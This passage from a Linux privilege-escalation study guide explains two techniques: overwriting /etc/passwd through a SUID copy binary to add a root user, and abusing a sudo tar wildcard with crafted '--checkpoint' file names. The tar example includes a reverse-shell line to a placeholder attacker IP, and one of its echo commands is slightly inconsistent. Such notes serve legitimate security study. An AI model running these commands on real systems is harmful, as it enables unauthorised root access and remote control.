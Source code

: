 ```{=html}
<!-- -->
```
-   **Exploiting SUID Binary:** `cp` **(overwrite passwd)** --
    *Scenario:* There is a SUID binary (maybe a custom program or even
    `/bin/busybox`) that allows copying files. This is a bit contrived,
    but sometimes an insecure SUID program could allow file writes. As
    an illustrative exploit:\
    **Commands:**

```{=html}
<!-- -->
```
-   echo 'hacker:$6$saltsalt$hashedPW:0:0:root:/root:/bin/bash' > /tmp/passwd  
        cp /tmp/passwd /etc/passwd  

    **Explanation:** This sequence would add a new root user (`hacker`)
    with a known password hash to
    `/etc/passwd`[\[39\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Create%20malicious%20passwd%20file,cp%20%2Ftmp%2Fpasswd%20%2Fetc%2Fpasswd%20su%20hacker).
    The example uses a pre-generated hash (`$6$...` indicates an SHA-512
    password hash). After copying, you could `su hacker` with the
    password you set. However, **you need root privileges to overwrite**
    `/etc/passwd` -- that\'s where the SUID binary comes in. If `cp` is
    SUID (rare), the second command would be executed as root and
    replace the file. In practice, you'd only do this if you have a SUID
    tool that can overwrite arbitrary files (some custom exploit or
    using `tee` with SUID, etc.). This demonstrates the principle of
    overwriting critical files to escalate. (Dirty COW exploit uses a
    similar idea to write to `/etc/passwd` by abusing a race condition.)

```{=html}
<!-- -->
```
-   **Exploiting Sudo: Wildcard in** `tar` -- *Scenario:* `sudo -l`
    shows you can run `/bin/tar -cf /opt/backup.tar *` as root (no
    password). This is vulnerable to a known wildcard expansion
    exploit.\
    **Commands:**

```{=html}
<!-- -->
```
-   cd /opt
        echo 'bash -i >& /dev/tcp/<Kali_IP>/4444 0>&1' > shell.sh     # payload script
        echo "" > "--checkpoint=1"
        echo "--checkpoint-action=exec=bash shell.sh" > "--checkpoint-action=exec=sh shell.sh"
        sudo /bin/tar -cf /opt/backup.tar * 

    **Explanation:** This is a bit complex. Essentially, `tar` has
    command-line options `--checkpoint` and `--checkpoint-action` which
    can execute a command during archiving. By crafting files named
    exactly as those options, we trick tar into executing our `shell.sh`
    when it
    runs[\[40\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Wildcard%20Exploitation%3A).
    In steps: we create a malicious script `shell.sh` (here using a
    reverse shell payload for demonstration; could also add user to
    sudoers as in the PDF example). Then we create empty files named
    `"--checkpoint=1"` and `"--checkpoint-action=exec=sh shell.sh"`.
    When tar runs with `*`, it will include these files as arguments and
    interpret them as options, thus executing the shell script as
    root[\[40\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Wildcard%20Exploitation%3A).
    This yields a root shell (or adds you to sudoers, etc., depending on
    the script).
